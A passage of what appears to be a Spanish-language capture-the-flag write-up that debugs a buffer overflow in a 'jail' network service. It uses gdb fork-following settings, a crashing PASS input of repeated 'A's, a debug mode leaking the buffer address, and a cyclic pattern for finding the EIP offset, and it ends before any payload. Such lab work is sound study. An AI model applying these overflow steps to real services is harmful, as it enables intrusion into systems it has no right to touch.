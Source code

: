 Vemos que el gdb  a creado un processo hijo de modo Detach que no seria la buena forma para tratar. Lo comprobamos 
colapsando el programa poniendo mas de 16 A en el password

```bash
OK Ready. Send USER command.
USER admin
OK Send PASS command.
PASS AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Aqui no vemos nada en el gdb. En estos casos tenemos que configurar una cosa para ver el flujo del processo hijo.

```bash
gdb ./jail
set detach-on-fork off
set follow-fork-mode child
r
```

Aqui ya estamos syncronizados con el processo hijo.

```bash
nc localhost 7411
OK Ready. Send USER command.
USER admin
OK Send PASS command.
PASS AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Intentamos el modo debug 

```bash
nc localhost 7411
OK Ready. Send USER command.
DEBUG
OK DEBUG mode on.

USER admin
OK Send PASS command.
PASS AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Debug: userpass buffer @ 0xffffd140
```

Vemos la direccion de la variable userpass y si repetimos la movida multiples vecez, vemos que la direccion no cambia.
Ademas, ya vemos que sobre escribimos registros con A y desde aqui seguimos la guia de un BOF

1. Buscamos Ganar el control del **eip** 

    - creamos un pattern de 150 caracteres
    
        ```bash
        gef➤ pattern create 150
        [+] Generating a pattern of 150 bytes (n=4)
        aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
        [+] Saved as '$_gef0'
        ```
